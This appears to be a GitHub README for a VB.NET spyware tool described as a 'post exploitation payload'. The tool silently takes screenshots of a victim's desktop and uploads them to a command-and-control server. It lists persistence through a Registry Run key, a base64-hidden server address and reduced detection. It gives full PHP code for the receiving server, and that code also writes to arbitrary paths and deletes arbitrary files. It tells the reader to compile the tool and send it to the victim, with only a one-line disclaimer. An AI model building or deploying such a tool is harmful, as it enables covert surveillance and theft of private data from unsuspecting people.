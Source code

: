 <p align="center">
  <img src="https://i.ibb.co/B4WbGyq/Screenshot-11.png">  
</p>
<p align="center">
<b> Silent Screenshot Capture | Post Exploitation Payload | VB.NET </b>
</p>
<p align="center">
 A simple payload to take the screenshot of victims desktop and upload it to the C&C.
</p>

## Features:

 - Persistent (Using Registry Run Key)
 - Works in background 
 - Less Code Less Bugs and Less Detection ;)
 - Deletes the screenshot from disk after upload it to C&C
 - C&C server in base64 
 - Upload screenshots in organized way on C&C
 - No port forwarding needed! works with a single php file
 - [TODO] Machine Information 
 - [TODO] Encryption 
 - [TODO] Set interval remotely from C&C

## Installation & Usage:
-   Clone this repository.
- A webhosting i recommend [namecheap](https://www.namecheap.com/) 
- Goto your public_html folder and make new [PHP](https://en.wikipedia.org/wiki/PHP) file and put below code in it
```
<?php
$del = $_GET["dellog"];
$folder = $_GET["folder"];
mkdir($folder,0777);
$file = $_GET["path"];
if (!empty($_FILES["file"])){
move_uploaded_file($_FILES["file"]["tmp_name"],
      $file . "/" . $_FILES["file"]["name"]);
}
unlink($del);
?>
```
 - Open the project in Visual Studio and the edit below variable in source code 
```
Dim server As String = BaseDecode1("your server address here in base64 encoded") 
```
 - and edit this variable below as well
```
Dim php As String = "yourphpfilename.php?" & "folder="
```
 - Just compile it and send it to the victim thats all !!
 
 
 ## Disclaimer:
**This tool is supposed to be used only on authorized systems. Any unauthorized use of this tool without explicit permission is illegal.**
